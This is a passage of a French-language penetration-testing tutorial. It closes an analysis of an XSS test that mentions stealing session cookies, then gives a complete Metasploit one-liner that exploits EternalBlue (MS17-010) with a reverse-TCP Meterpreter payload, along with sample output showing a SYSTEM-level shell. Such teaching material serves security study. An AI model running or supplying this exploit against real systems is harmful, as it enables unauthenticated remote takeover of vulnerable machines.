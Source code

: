 **Analyse :** Cette commande teste une vulnérabilité XSS (Cross-Site Scripting) en injectant un script JavaScript dans un paramètre de recherche. La sortie montre que le script a été intégré tel quel dans la page de résultats, sans échappement ni filtrage, confirmant la vulnérabilité. Dans un scénario réel, ce script pourrait voler les cookies de session des utilisateurs et les envoyer à un serveur contrôlé par l'attaquant.

#### 2. Exploitation avec Metasploit Framework

**Commande pour exploiter la vulnérabilité EternalBlue (MS17-010) :**
```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.10; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.1.5; set LPORT 4444; exploit"
```

**Sortie typique :**
```
[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] 192.168.1.10:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.10:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.10:445       - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.1.10:445 - Connecting to target for exploitation.
[+] 192.168.1.10:445 - Connection established for exploitation.
[+] 192.168.1.10:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.10:445 - CORE raw buffer dump (42 bytes)
[*] 192.168.1.10:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.1.10:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.1.10:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.1.10:445 - Sending shellcode
[*] Sending stage (200262 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-04-02 18:45:00 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : SERVER
OS              : Windows Server 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

**Analyse :** Cette commande utilise le framework Metasploit pour exploiter la vulnérabilité EternalBlue (MS17-010) sur un serveur Windows. L'exploit a réussi, établissant une session Meterpreter avec les privilèges SYSTEM (les plus élevés sur un système Windows). Cette vulnérabilité permet l'exécution de code à distance sans authentification et a été utilisée dans les attaques de ransomware WannaCry et NotPetya.
